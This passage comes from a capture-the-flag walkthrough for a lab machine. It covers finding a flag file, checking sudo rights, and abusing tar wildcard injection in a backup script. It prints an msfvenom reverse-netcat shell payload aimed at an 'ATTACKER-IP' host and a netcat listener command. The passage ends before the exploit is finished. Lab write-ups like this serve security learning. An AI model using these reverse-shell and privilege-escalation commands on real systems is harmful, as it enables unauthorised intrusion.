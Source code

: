 ```bash
# search for the file "user.txt" starting from the root, "/", directory
find / -name user.txt -type f 2>/dev/null
```

Lo and behold, the second 🚩 is just there waiting us!

![flag2](second-flag.jpg)

Let's check if user `jake` have any SUDO privileges:

![sudo-l](sudo-list.png)

It seems that `jake`, can run the `/opt/backups/backup.sh` file with the perimissions of user `michael`, who is its owner. Upon closer inspection of the file's contents, its job seems pretty straightforward:

![backup-sh-script](backup-sh.png)

1. It creates a **tar archive** named `backup.tar`, using the `tar cf /opt/backups/backup.tar` command.
2. Instead of archiving a specified file, for instance, `tar cf /opt/backups/backup.tar backup.sh`, it uses the wildcard character, `*`, which means that it is archiving all files within the directory.

This is where things got dark really fast. I spent an awful lot of time researching and reading for this one, I even asked [ChatGPT](https://chat.openai.com/) 🤖, but I couldn't completely grasp the concept of [**wildcard injection**](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/). What finally did it for me was [Tib3rius](https://tryhackme.com/p/Tib3rius)' [walkthrough](https://youtu.be/EYqCHujNyHQ?t=2662)!

The gist of what I understood based on the above walkthrough is that we are trying to take advantage of the [**wildcard wildness**](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) concept by passing files as command arguments. As Tib3rius explains:

> *An `*` *in Bash will take the names of all the files in the current directory and it will concatenate them using spaces. And it just so happens that arguments to executables are separated by spaces too. So, if you ever have an `*` after a command, and one of the files in the current directory just happens to very closely resemble an argument for that command, you can execute that command and pass the files as arguments!*

Armed with Tib3rius' explanation and GTFO's guidance on how to exploit [tar](https://gtfobins.github.io/gtfobins/tar/#sudo), this is how to do it:

1. Generate a payload with `msfvenom`:

    ```bash
    msfvenom -p cmd/unix/reverse_netcat LHOST=ATTACKER-IP LPORT=54321 R
    ```

    ![msfvenom-payload](msfvenom-payload.jpg)

2. Setup a listener:

    ```bash
    nc -lvnp 54321
    ```
